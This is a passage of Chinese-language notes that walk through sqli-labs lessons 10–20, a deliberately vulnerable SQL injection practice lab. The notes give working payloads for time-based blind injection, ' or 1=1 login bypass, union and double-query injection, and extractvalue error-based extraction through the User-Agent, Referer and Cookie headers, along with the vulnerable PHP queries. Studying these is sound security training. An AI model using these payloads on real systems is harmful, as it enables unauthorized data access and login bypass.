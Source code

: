 - ** less 10 GET -Blind - Time Based - Double Quotes ** </br>
	?id=1"%20and%20if(ascii(substr(database(),1,1))>116,%200,%20sleep(5))%20%23

- ** less 11 POST - Error Based -Single Qoutes - String ** </br>
	username:  
      1.admin ' # admin用户</br>
      2.adimn ' or 1=1 # 万能</br>
      3. ' union select version(),1 # 等其它操作
	passwd:
    因为username已经用#将后面注释了，所以passwd随意输入

- ** less 12 POST - Error Based - Double Quotes - String - with twist ** </br>
将less11的单引号改为 “）

- ** less 13 POST - Double Injection - Single quotes - String - with twist ** </br>
	username:    ') union select (select count(\*) from information_schema.schemata group by concat(version(),floor(rand(0)\*2))),1 #</br>
	返回信息Duplicate entry '5.7.23-0ubuntu0.16.04.11' for key ''</br>
	另外这种有正确/错误提示的，都可以二分盲注来猜测验证

- ** less 14 POST  - Double Injection - Double quotes - String ** </br>
	less13 ') 换为 ”

- ** less 15 POST - Blind - Boolean/Time Based -Single Quotes ** </br>
	username: ' or 1=1 # 登录成功 </br>
	思路：利用or/and/if sleep()等来进行猜测</br>

- ** less 16 POST - Blind - Boolean/Time Based - Double Quotes - with twist ** </br>
	将less15 ' 换成 ")

- ** less 17 POST - Update Query - Error Based - String ** </br>
	这里对用户名进行了过滤</br>
	利用报错进行注入输出 </br>
	uname=admin&passwd=11'and extractvalue(1,concat(0x7e,(select @@version),0x7e))#&sub mit=Submit </br>
	输出结果XPATH syntax error: '~5.7.23-0ubuntu0.16.04.1~'</br>
  报错注入基本都是利用XPath进行报错
	有必要去买本书来系统的看一下mysql各种函数

- ** less 18 POST - Header Injection - Uagent field - Error Based ** </br>
	这里需要正确的账号密码才能进行注入，因为插入操作是在登录判断成功后</br>
	php中语句：$insert="INSERT INTO \`security\`.\`uagents\` (\`uagent\`, \`ip_address\`, \`username\`) VALUES ('$uagent', '$IP', $uname)";</br>其中$IP不好修改，$uname与$password进行了过滤，所以考虑$uagent</br>
	将User-Agent 修改为 ‘ or extractvalue(1,concat(0x7e,version())) or ’</br>
	返回结果：XPATH syntax error: '~5.7.23-0ubuntu0.16.04.1'

- ** less 19 POST - Header Injection - Referer Field - Error Based ** </br>
	同less 18,进行了过滤，但执行了$insert="INSERT INTO \`security\`.\`referers\` (\`referer\`, \`ip_address\`) VALUES ('$uagent', '$IP')";</br>
	其中：$uagent = $\_SERVER['HTTP_REFERER'];</br>
	将Referer 修改为: 'or extractvalue(1,concat(0x7e,database())) or'</br>
	返回: XPATH syntax error: '~security'

- ** less 20 POST - Cookie Injection - Uagent Field - Error Based ** </br>
	进行了过滤</br>
	$cookee = $\_COOKIE['uname'];</br>
	$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";</br>
	流程是登录成功后产生cookie,此时修改cookie,进行注入(在chrome浏览器中使用tamper插件进行请求的拦截修改)</br>
	修改Cookie为： uname=-1' union select 1,(select version()),3 #</br>
	返回 ：
           Your Login name:5.7.23-0ubuntu0.16.04.1
		   Your Password:3
		   Your ID:1
	也可以用MYSQL对XML文档数据进行查询和修改的XPATH函数，进行报错回显</br>
	 uname=admin'and extractvalue(1,concat(0x7e,(select @@basedir),0x7e))# </br>
	返回:Issue with your mysql: XPATH syntax error: '~/usr/~'
